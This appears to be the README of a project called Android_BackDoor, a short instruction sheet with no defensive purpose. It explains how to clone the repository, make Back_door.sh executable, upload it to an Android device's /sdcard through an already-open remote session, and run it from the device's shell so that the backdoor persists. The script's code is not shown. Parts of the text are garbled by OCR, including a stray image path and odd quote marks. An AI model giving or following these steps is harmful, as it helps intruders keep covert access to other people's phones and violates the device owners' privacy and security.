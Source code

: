 #Author : Utkarsh Singh

#Copyright (C) 2020

#Android_BackDoor

Configuration :-

git clone <paste_url>
  
cd Back_door-Script-ForAndroid

chmod +x Back_door.sh

#After that you need to get into root directory of android device by typing “cd /” in terminal.

#Now you need to get into /sdcard location by typing “cd /sdcard” in same terminal.

#Here you can upload your backdoored script by typing “upload Back_door.sh” in same terminal.

#Now all we have to do is execute the script once, and then everything will be done automatically, type “shell” to enter into system’s shell mode of android device.

#Here you need to again go into same location i.e. cd /root/sdcard and execute the backdoor using “sh Back_door.sh“.

#your script has been executed successfully, you can terminate the execution by pressing CTRL + C and then type Y.

done!

# If You Are Online ByDefault You Are Vulnerable...!!
